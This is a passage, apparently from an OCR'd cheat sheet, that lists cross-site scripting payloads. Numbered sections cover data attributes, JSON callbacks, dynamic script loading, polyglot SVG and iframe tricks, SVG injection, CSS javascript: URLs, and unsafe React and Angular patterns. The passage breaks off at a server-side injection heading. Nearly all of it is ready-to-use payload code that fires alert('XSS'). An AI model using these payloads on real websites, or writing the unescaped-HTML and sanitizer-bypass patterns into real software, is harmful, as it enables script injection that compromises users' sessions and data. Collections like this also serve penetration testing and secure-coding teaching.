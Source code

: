 Data Attributes:

<div data-info="<script>alert('XSS')</script>"></div>


4. JSON-Based Attacks

Exploiting JavaScript Deserialization:

{"callback": "alert('XSS')"}

Dynamic Script Loading:

var script = document.createElement('script');
script.src = "data:text/javascript,alert('XSS')";
document.body.appendChild(script);


5. Polyglot Payloads

Combining Contexts:

<svg><g/onload="alert('XSS')"></g></svg>

Using iframe for Escape:

<iframe src="javascript:alert('XSS')"></iframe>


6. SVG Injection

Embedded JavaScript:

<svg xmlns="http://www.w3.org/2000/svg"><script>alert('XSS')</script></svg>

Using feImage for External Resources:

<svg><image href="data:image/svg+xml,<svg><script>alert('XSS')</script></svg>"/></svg>


7. CSS-Related XSS

CSS Keyframes:

@keyframes x { 0% {background: red;} 100% {background: url("javascript:alert('XSS')")}}

Using url in CSS:

background-image: url("javascript:alert('XSS')");


8. Exploiting Frameworks

React (Unescaped HTML):

const userInput = "<script>alert('XSS')</script>";
return <div dangerouslySetInnerHTML={{ __html: userInput }} />;

Angular (Bypassing Security):

import { DomSanitizer } from '@angular/platform-browser';
const sanitizedHtml = this.sanitizer.bypassSecurityTrustHtml("<script>alert('XSS')</script>");


9. Server-Side Injection
